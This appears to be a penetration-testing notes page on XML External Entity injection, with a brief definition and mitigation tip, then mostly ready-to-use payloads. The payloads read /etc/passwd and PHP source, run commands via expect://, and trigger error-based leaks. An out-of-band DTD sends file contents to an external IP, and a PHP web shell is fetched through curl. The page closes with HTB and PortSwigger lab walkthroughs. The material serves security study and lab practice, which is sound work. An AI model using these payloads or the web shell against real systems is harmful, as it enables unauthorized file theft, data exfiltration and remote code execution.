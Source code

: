 # XXEI

{% hint style="info" %}
**XML External Entity Injection (XXE)** is a vulnerability where an attacker exploits the XML parser to include and process external entities, which can lead to unauthorized access to files or services.
{% endhint %}

{% hint style="danger" %}
This can result in data exfiltration, server-side request forgery, or application crashes, as attackers can access sensitive files or internal systems.
{% endhint %}

{% hint style="success" %}
Disable external entity processing in XML parsers, validate and sanitize XML inputs, and use secure XML parsing libraries that are configured to prevent XXE attacks.
{% endhint %}

## Payloads

### Common

{% tabs %}
{% tab title="Directory Listing" %}
```xml
<!-- This works in certain Java web applications -->
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/">
]>
```
{% endtab %}

{% tab title="LFI" %}
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```
{% endtab %}

{% tab title="Source Code Exfil" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE test [
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```xml
<!-- The PHP://expect filter is not installed by default. Also for this to work, the output must be reflected. -->
<!DOCTYPE test [
<!ENTITY company SYSTEM "expect://whoami'">
]>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Error-Based

We can also **force a validation or a truncation error** on the application which may lead to a **verbose error message**.

{% tabs %}
{% tab title="Validation Error" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<!-- Passing a file in a field that expects a timestamp -->
<createdStamp>&xxe;</createdStamp>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```
{% endcode %}
{% endtab %}

{% tab title="Truncation Error" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE" createdStamp="2021-06-04 08:16:18.258">
<longDescription>XXE</longDescription>
<description>&xxe;</description>
</Product>
</entity-engine-xml>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Out-of-Band

If we cannot access the results of our XXEI attack or obtain verbose error messages, we can use external entities to reference resources on other servers and exfiltrate data as part of the request that loads the external resource.

{% code title="external.dtd" overflow="wrap" %}
```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.214/out?%content;'>" >
```
{% endcode %}

The payload can be seen below. We start by including a parameter entiry that reference `external.dtd` and then with the `%base` entity, which will cause the parser to parse the `external.dtd` file. Next, the parser will expand the `external` entity, creating the `exfil` entity which we will then reference.

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.214/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

### RCE

We can achieve RCE via a URL-referenced DTD.

{% tabs %}
{% tab title="1. Web shell" %}
```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```
{% endtab %}

{% tab title="2. XXEI" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
{% endtab %}
{% endtabs %}

### File Uploads

We can leverage a[ **file upload** functionality by uploading **XML-based formats**](xxei.md#svg-xxei-greater-than-lfi) (`svg`, `docx`). In this case we must ensure to set `Content-Type: text/svg+xml`.

## Examples

### XXEI -> LFI

> _The example below is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

The checkout process is sending data in XML format (Figure 1).

<figure><img src="../../../.gitbook/assets/xxe_example_checkout.png" alt=""><figcaption><p>Figure 1: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we can also confirm it (Figure 2).

<figure><img src="../../../.gitbook/assets/xxe_detection.png" alt=""><figcaption><p>Figure 2: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 3).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../../.gitbook/assets/xxe_lfi.png" alt=""><figcaption><p>Figure 3: LFI via XXE.</p></figcaption></figure>

### SVG XXEI -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XXE via image file upload_](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) _lab._

The application has an upload functionality within the comments section (Figure 4).

<figure><img src="../../../.gitbook/assets/web_xxe_3.png" alt=""><figcaption><p>Figure 4: Enumerating a potential XXE injection vulnerability.</p></figcaption></figure>

We can try injecting a out-of-the-box payload, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg), and see what comes back (Figure 5).

{% code overflow="wrap" %}
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xxe_4.png" alt=""><figcaption><p>Figure 5: Achieving LFI via XXE injection.</p></figcaption></figure>

### XInclude -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XInclude to retrieve files_](https://portswigger.net/web-security/xxe/lab-xinclude-attack) _lab._

When using the `Check Stock` functionality the `POST` request made does not seem to process XML data (Figure 6).

<figure><img src="../../../.gitbook/assets/web_xxe_5.png" alt=""><figcaption><p>Figure 6: A normal, non XML-related, <code>POST</code> request.</p></figcaption></figure>

In this case, where we can't see XML data directly and we can't modify the `DOCTYPE` element, we can use `XInclude` payloads, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks), as parameter values (Figure 7).

<figure><img src="../../../.gitbook/assets/web_xxe_6.png" alt=""><figcaption><p>Figure 7: Using an <code>XInclude</code> payload to achieve LFI.</p></figcaption></figure>
